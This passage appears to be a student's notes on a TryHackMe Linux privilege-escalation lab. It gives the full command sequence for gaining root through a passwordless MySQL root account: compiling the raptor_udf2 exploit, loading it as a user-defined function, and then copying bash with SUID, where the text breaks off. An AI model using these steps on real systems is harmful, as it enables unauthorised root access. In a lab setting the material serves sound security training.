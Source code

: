 # Linux PrivEsc

Tags: README, THM, linux

# Task 1

---

### Run the "id" command. What is the result?

---

```jsx
user@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```

# Task 2 SQL service exploit

---

The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the /home/user/tools/mysql-udf directory:

```jsx
cd /home/user/tools/mysql-udf
```

Compile the raptor_udf2.c exploit code using the following commands:

```jsx
gcc -g -c raptor_udf2.c -fPICgcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Connect to the MySQL service as the root user with a blank password:

```jsx
mysql -u root
```

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

```jsx
use mysql;create table foo(line blob);insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:
